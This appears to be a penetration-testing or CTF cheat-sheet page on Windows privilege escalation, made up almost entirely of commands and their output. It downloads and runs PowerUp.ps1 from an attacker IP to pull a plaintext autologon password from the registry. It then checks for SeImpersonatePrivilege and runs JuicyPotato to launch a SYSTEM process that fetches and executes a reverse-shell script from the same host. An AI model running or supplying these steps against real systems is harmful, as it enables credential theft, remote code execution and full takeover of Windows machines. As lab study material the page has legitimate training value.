

# 30 - PrivEsc


# PowerUp.ps1


```powershell
PS C:\Users\Sarah\Desktop> IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.12/PowerUp.ps1")                                                                                                                                   
PS C:\Users\Sarah\Desktop> Invoke-AllChecks                                                                                                                                                                                                  

[*] Checking for Autologon credentials in registry...                                                                                                                                                                                        
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
DefaultDomainName    :                                                                                                                                                                                                                       
DefaultUserName      : sarah                                                                                                                                                                                                                 
DefaultPassword      : mylongandstrongp4ssword!                                                                                                                                                                                              
AltDefaultDomainName :                                                                                                                                                                                                                       
AltDefaultUserName   :                                                                                                                                                                                                                       
AltDefaultPassword   : 
```

# SeImpersonatePrivilege  
```powershell
PS C:\Users\Public> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```


# JuicyPotato.exe
```powershell
PS C:\Users\Public> .\potato.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

```powershell
PS C:\Users\Public> .\potato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.12/reverse2.ps1')" -t * -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"
Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1337
......
[+] authresult 0
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\Users\Public> ^[
```
If you can't find any working CLSID you should visit this page https://ohpe.it/juicy-potato/CLSID/




